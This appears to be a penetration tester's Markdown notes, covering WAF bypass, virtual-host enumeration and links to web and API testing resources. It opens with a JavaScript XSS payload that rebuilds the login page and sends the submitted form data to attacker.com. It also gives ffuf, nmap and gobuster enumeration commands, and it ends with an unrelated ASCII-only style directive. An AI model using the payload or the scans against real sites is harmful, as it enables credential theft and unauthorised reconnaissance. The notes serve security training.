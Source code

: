 fetch("login").then(res => res.text().then(data => { 
    document.getElementsByTagName("html")[0].innerHTML = data 
    document.getElementsByTagName("form")[0].action = "http://attacker.com" 
    document.getElementsByTagName("form")[0].method = "get" 
}))

### WAF Bypass
https://search.censys.io/ 
Example search: "($DOMAIN) and location.country=`United States`"

### VHost Enumeration
ffuf:
	ffuf -u 'http://creative.thm/' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.creative.thm" -mc all -t 100 -fs 178
nmap:
	nmap --script http-vhosts -p 80,443 --script-args http-vhosts.domain=crapi.site,http-vhosts.filelist=/opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt www.crapi.site
gobuster:
	gobuster vhost -k --append-domain -u crapi.site -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt

### PortSwigger Web Security Academy
https://portswigger.net/web-security/dashboard
https://portswigger.net/web-security/all-materials
https://portswigger.net/web-security/all-labs
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
https://portswigger.net/web-security/sql-injection/cheat-sheet

### API Testing

#### Practical_fuzzing_for_modern_web_and_APIs.pdf

#### API Testing Methodology
https://owasp.org/www-project-api-security/
https://katalon.com/resources-center/blog/api-testing-tips
https://www.parasoft.com/blog/api-testing-guide/

#### Postman
https://www.postman.com/
https://learning.postman.com/docs/writing-scripts/test-scripts/
https://www.softwaretestinghelp.com/api-testing-using-postman/
https://www.srijan.net/resources/blog/manual-api-testing-using-postman
https://www.blazemeter.com/blog/how-use-postman-manage-and-execute-your-apis

### Communication and Style
When you communicate in the chat, write code comments, documentation or reports, please use ASCII characters only. Never use icons, emojis, or any other images (use ASCII alternatives instead if really necessary).

